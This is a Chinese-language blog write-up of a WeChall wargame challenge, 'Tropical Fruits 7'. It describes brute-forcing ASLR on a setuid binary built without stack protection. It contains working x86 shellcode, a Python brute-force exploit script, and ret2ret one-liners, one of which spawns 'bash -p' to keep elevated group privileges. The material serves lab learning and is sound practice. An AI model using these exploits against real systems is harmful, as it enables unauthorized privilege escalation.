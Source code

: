 ```yaml
---
title: 'Writeup-Training: Warchall &#8211; 7 Tropical Fruits'
layout: post
categories: blog
tags: [Hack, Python, Writeup]
comments: true
share: true
---
```

<p style="color: #000000;">
  Challenge URL：<a style="color: #294666;" href="http://www.wechall.net/challenge/warchall/tropical/7/index.php">Training: Warchall &#8211; 7 Tropical Fruits</a>
</p>

Wechall的tropic这道题真是撸得我考试周复(yu)习(xi)都没心思了，花了两天半终于搞定了，才63人做出来的题目居然是training！！！

做这题的时候也是我第一次写shellcode，不过这道题难点不在于shellcode怎么写，而在于坑爹的ASLR。不说stack的地址一直在变，居然连linux-gate.so都在变！

一开始查了好久，发现个思路叫ret2libc，然后我gdb了一下，发现system()的地址虽然是随机的，但是有6位是不变的。然后我就撸啊撸，撸了个shell脚本，速度不错，居然半分钟之内就能把system(&#8220;sh&#8221;)跑出来。看到&#8221;sh-4.2$&#8221;的时候我那叫一个激动啊。坑爹的是system()这货执行的时候居然会丢掉suid的权限(man system#NOTES)。

所以忙活了一天，我的成果就是，在一个shell下面，再开一个shell&#8230;&#8230;

然后第二天我不甘心啊，就找啊找找啊找，找到了exec函数族。

{% highlight c %}
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
//其中只有execve是真正意义上的系统调用，其它都是在此基础上经过包装的库函数。
{% endhighlight %}

这货厉害，suid会传递下去，但是悲催的是每个函数的参数不止一个，而且大多都要求最后一个参数为NULL(直接无视)，但是execv之类的函数又不方便构造后面的那些二阶指针，所以我昨天就是在满屏的Segmentation Fault中度过的，偶尔出现的Invalid Instruction能让人高兴好一阵。

第二天无果，不过我cat了一下compile7.sh，发现了好玩的东西

{% highlight sh %}
#!/bin/bash
gcc -fno-stack-protector -z execstack level7.c -o level7
chmod 6755 level7
{% endhighlight %}

是的&#8230;出题者把DEP关掉了&#8230;然后我就睡不着了

## 解法：

今天早上考完离散就立马赶回寝室继续撸这道题，虽然解法很很蠢(对stack的5个随机位进行碰撞)，但是至少能在10分钟内出结果……

先给solution.txt建一个到工作目录软连接:

{% highlight sh %}
$ ln -s /home/level/tropic/7/solution.txt ./lk
{% endhighlight %}


然后跑这个python脚本：

{% highlight python %}
# -*- coding=utf8 -*-
__author__ = 'Cubarco'


def tropic_crack():
    try:
        shellcode = "1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk" \
                    "\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80"
        stack_hex = hex(random.randint(0xbf00000, 0xbffffff)*0x10+0x01)[:-1]
        stack_int = int(stack_hex, 16)
        path = "/home/level/tropic/7/level7"
        args = [path,
                '\x90'*(312-len(shellcode))
                + shellcode
                + struct.pack('&lt;L', stack_int)]
        args[1] = args[1].replace("(", "\\(")\
                         .replace("\"", "\\\"")\
                         .replace(")", "\\)")\
                         .replace("\\", "\\\\")\
                         .replace("\'", "\\\'")
        p = subprocess.Popen(args,
                             stdout=subprocess.PIPE,
                             stderr=subprocess.PIPE,
                             shell=False)
        rsp = p.stdout.read()
        if rsp != '':
            print rsp
    except:
        # print traceback.format_exc()
        # 好像subprocess开太快了会出问题...
        pass


if __name__ == '__main__':
    import struct
    import random
    import subprocess
    import traceback
    
    while True:
        tropic_crack()
{% endhighlight %}

做完题去题解讨论区看到个ret2ret的思路感觉好棒，有时间研究一下。

对了，跑脚本的时候如果它卡住了而且ctrl+c关不掉请不要来打我。正确姿势是killall&#8230;..

UPDATE: 刚看了一下ret2ret，我想去死一死了。是的，只用下面一句话就能搞定，oh，前提还是给solution.txt建立一个到工作目录的软链接，名字是lk（其实是因为./lk刚好是四字节， 如果用原来的路径好麻烦还要四字节对齐，偷个懒）

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
# 0x080484d2是程序里面一个执行ret指令的地址，随便挑！
{% endhighlight %}

更BT一点还可以这样，跑一个/bin/bash -p：

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'j\x0bX\x99Rfh-p\x89\xe1Rjhh/bash/bin\x89\xe3RQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
bash-4.2$ id
uid=4057(cubarco) gid=4057(cubarco) egid=1008(level7) groups=4057(cubarco)
# 然后你就有level7的egid了...
{% endhighlight %}

##  参考：

  1. Hackers Hut#[Smashing The Stack][1](ASLR bypassing overview)
  2. [Performing a ret2libc Attack][2](ret2libc)
  3. [Return-to-libc Attack Lab][3](ret2libc)
  4. [Smack the Stack][4](ret2ret)

 [1]: http://www.win.tue.nl/~aeb/linux/hh/hh-10.html
 [2]: http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf
 [3]: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf
 [4]: http://web.textfiles.com/hacking/smackthestack.txt

